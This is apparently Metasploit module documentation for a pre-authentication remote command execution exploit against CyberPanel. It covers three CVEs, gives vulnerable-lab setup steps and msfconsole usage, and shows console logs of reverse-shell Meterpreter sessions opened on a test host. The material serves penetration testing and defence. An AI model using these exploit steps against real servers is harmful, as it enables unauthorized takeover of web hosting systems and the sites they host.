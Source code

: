 ## Vulnerable Application

CyberPanel is an open-source web hosting control panel based on OpenLiteSpeed.
This module exploits two pre-authenticated remote command execution (RCE) vulnerabilities found in certain versions of CyberPanel.

- **CVE-2024-51378**: The `getresetstatus` endpoint in `dns/views.py` and
`ftp/views.py` in CyberPanel before commit `1c0c6cb` allows remote attackers to
bypass authentication and execute arbitrary commands via `/dns/getresetstatus` or
`/ftp/getresetstatus` by bypassing `secMiddleware`(which applies only to POST
requests) and using shell metacharacters in the `statusfile` property.
This vulnerability has been exploited in the wild as of October 2024 by PSAUX, affecting versions through 2.3.6 and the unpatched 2.3.7.

- **CVE-2024-51567**: The `upgrademysqlstatus` endpoint in `databases/views.py` in
CyberPanel before commit `5b08cd6` allows remote attackers to bypass authentication
and execute arbitrary commands via `/dataBases/upgrademysqlstatus`, also by
bypassing `secMiddleware` and using shell metacharacters in the `statusfile` property.
This vulnerability has similarly been exploited in the wild in October 2024
by PSAUX, impacting versions through 2.3.6 and the unpatched 2.3.7.

- **CVE-2024-51568**: CyberPanel before 2.3.5 allows command
injection via completePath in the ProcessUtilities.outputExecutioner() sink.
This vulnerability includes unauthenticated remote code execution via shell
metacharacters in the /filemanager/upload (aka File Manager upload) endpoint,
exploiting shell metacharacters for arbitrary command execution.

These vulnerabilities allow attackers to execute commands on the server without needing authentication.

### Installation Instructions

To set up a vulnerable instance of CyberPanel for testing, follow these
instructions on an Ubuntu 18.04 server (or later).
The example below demonstrates installation on Ubuntu 18.04, though newer versions of Ubuntu should work as well.

1. First, install necessary dependencies and disable IPv6 to avoid potential network issues:

```bash
sudo su -
apt update && apt install -y curl wget
sysctl -w net.ipv6.conf.all.disable_ipv6=1
sysctl -w net.ipv6.conf.default.disable_ipv6=1
```

2. Then, download and run the CyberPanel installation script:

```bash
sh <(curl https://cyberpanel.net/install.sh || wget -O - https://cyberpanel.net/install.sh)
```

3. During installation, choose the following options:
   - Install CyberPanel: Select option `1`
   - Install CyberPanel with OpenLiteSpeed: Select option `1`
   - Skip full installation (choose `n`)
   - Skip Postfix, PowerDNS, and PureFTPd installations
   - Skip Remote MySQL setup
   - Install CyberPanel version `2.3.4` when prompted
   - Decline Memcached and Redis installations

## Verification Steps

1. Install CyberPanel as outlined above.
2. Start `msfconsole`.
3. Use the module path: `use exploit/unix/webapp/cyberpanel_preauth_rce_multi_cve`.
4. Set the `RHOSTS` option to the target server’s IP.
5. Run the exploit with the desired CVE (choose either `cve-2024-51567`, `cve-2024-51568` or `cve-2024-51378`).
6. A successful exploitation should provide a shell on the target.

## Options

No option

## Scenarios

### Example: CVE-2024-51567 on CyberPanel 2.3.5 (Ubuntu 18.04)

To exploit `CVE-2024-51567` and achieve remote command execution:

```bash
msf6 exploit(unix/webapp/cyberpanel_preauth_rce_multi_cve) > show actions 

Exploit actions:

       Name            Description
       ----            -----------
       CVE-2024-51378  Exploit using CVE-2024-51378
   =>  CVE-2024-51567  Exploit using CVE-2024-51567
       CVE-2024-51568  Exploit using CVE-2024-51568


msf6 exploit(unix/webapp/cyberpanel_preauth_rce_multi_cve) > run http://192.168.1.16:8090/

[*] Started reverse TCP handler on 192.168.1.36:4444 
[*] CSRF Token retrieved: ptcsu2Gumssya7hVSDpZXsPse0wu0kCoW4BsEMrXj0rmeX4CvsUwPDPbXNQIJXgJ
[*] Sending stage (3045380 bytes) to 192.168.1.16
[*] Meterpreter session 1 opened (192.168.1.36:4444 -> 192.168.1.16:48380) at 2024-10-31 22:01:34 +0100

meterpreter > sysinfo 
Computer     : 192.168.1.16
OS           : Ubuntu 18.04 (Linux 5.4.0-84-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux

```

### Example: CVE-2024-51378 on CyberPanel 2.3.5 (Ubuntu 18.04)

To exploit `CVE-2024-51378` and achieve remote command execution:

```bash
msf6 exploit(unix/webapp/cyberpanel_preauth_rce_multi_cve) > set action CVE-2024-51378
action => CVE-2024-51378
msf6 exploit(unix/webapp/cyberpanel_preauth_rce_multi_cve) > show actions

Exploit actions:

       Name            Description
       ----            -----------
   =>  CVE-2024-51378  Exploit using CVE-2024-51378
       CVE-2024-51567  Exploit using CVE-2024-51567
       CVE-2024-51568  Exploit using CVE-2024-51568


msf6 exploit(unix/webapp/cyberpanel_preauth_rce_multi_cve) > run http://192.168.1.16:8090/

[*] Started reverse TCP handler on 192.168.1.36:4444 
[*] CSRF Token retrieved: kbMIa2vWhrrlbTjMr1HVvX4IyecR3ENVkQwrJj7qZcXqAwYvo7a6d7MBQUxYnqaX
[*] Sending stage (3045380 bytes) to 192.168.1.16
[*] Meterpreter session 2 opened (192.168.1.36:4444 -> 192.168.1.16:48384) at 2024-10-31 22:02:36 +0100

meterpreter > sysinfo 
Computer     : 192.168.1.16
OS           : Ubuntu 18.04 (Linux 5.4.0-84-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```

### Example: CVE-2024-51568 on CyberPanel 2.3.4 (Ubuntu 18.04)

```bash
msf6 exploit(unix/webapp/cyberpanel_preauth_rce_multi_cve) > show actions 

Exploit actions:

       Name            Description
       ----            -----------
       CVE-2024-51378  Exploit using CVE-2024-51378
       CVE-2024-51567  Exploit using CVE-2024-51567
   =>  CVE-2024-51568  Exploit using CVE-2024-51568


msf6 exploit(unix/webapp/cyberpanel_preauth_rce_multi_cve) > run http://192.168.1.16:8090/

[*] Started reverse TCP handler on 192.168.1.36:4444 
[*] CSRF Token retrieved: VRu68HihQzQ0UcDjDhwwGyQV4PjXLkcDzCGf0fuRGPR6f3DO4oEcZmIiuGCXkubX
[*] Sending stage (3045380 bytes) to 192.168.1.16
[*] Meterpreter session 2 opened (192.168.1.36:4444 -> 192.168.1.16:38878) at 2024-11-01 08:42:53 +0100

meterpreter > sysinfo 
Computer     : 192.168.1.16
OS           : Ubuntu 18.04 (Linux 5.4.0-150-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```
